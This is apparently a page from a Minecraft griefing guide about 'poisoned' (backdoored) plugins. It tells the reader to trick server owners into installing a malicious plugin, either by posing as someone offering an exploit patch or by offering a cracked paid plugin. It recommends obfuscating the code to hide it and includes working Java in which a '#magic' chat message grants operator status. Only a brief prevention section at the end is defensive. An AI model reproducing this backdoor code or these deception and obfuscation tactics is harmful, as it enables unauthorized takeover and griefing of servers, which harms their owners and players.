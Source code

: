 # Poisoned Plugin

**Explanation**

A poisoned plugin (also called a backdoored or trojan plugin) is a plugin that can be used to gain yourself administrator privileges on a Minecraft server. The idea is to trick the server owner or administrator to install a malicious plugin on their server. How do you do that? This requires some social engineering.

A trojan is a piece of malware that looks legitimate, but it's purpose and execution is malicious. The term is derived from the Ancient Greek story of the deceptive Trojan Horse that led to the fall of the city of Troy. The Greeks built a wooden horse and gave it to the Troys, making them think they had surrendered. The Troys accepted the horse and moved it inside of the city. What they didn't know was that the horse was hollow and filled with Greek soldiers, ready to slay.

You can make the server owner or administrator install the plugin by first finding an exploit or bug on the server. This could e.g. be a crash exploit. Tell the owner that you discovered the exploit, and you have a patch for it. Send them the legit-looking plugin, and make them install it on the server. When it's installed, you can then use it's feature to gain OP and grief the server.

An other way to make them intall it, is by telling them that you've got a cracked version of a paid plugin. E.g. Advanced Anti Cheat (AAC).

This griefing method requires a little knowledge in Java programming, as you need to develop your own plugin.

If you know how to script scripts using Skript or Denizen, you can obtain the same result. Of course you need to hide the code better e.g. by obfuscating it (make the code look confusing), as the server owner or administrator can easily read it. Same goes for Java plugins. You can obfuscate Skript scripts by using [Obfuskator](https://www.spigotmc.org/resources/skript-tool-obfuskator-jar-encapsulation.60791), and [ProGuard](https://sourceforge.net/projects/proguard) for Java plugins.

Here's an example of what a very simple unobfuscated poisoned plugins code in Java could look like:
```java
public class main extends JavaPlugin implements Listener {

    public void onEnable() {
        this.getServer().getPluginManager().registerEvents((Listener)this, (Plugin)this);
    }
    
    @EventHandler
    public void onPlayerChat(PlayerChatEvent event) {
        if (event.getMessage().startsWith("#magic")) {
            event.setCancelled(true);
            event.getPlayer().setOp(true);
        }
    }
}
```

**Prevention**

Always make sure the plugins and scripts you installed on your server are legitimate, and not backdoored.

Don't trust random people who tries to make you install a plugin or script on your server. If in doubt, use a Java decompiler to read the code of the plugin, and any text editor for scripts. If the code is obfuscated, and you're not 100% sure if the plugin or script is legitiamte, don't install it on your server.
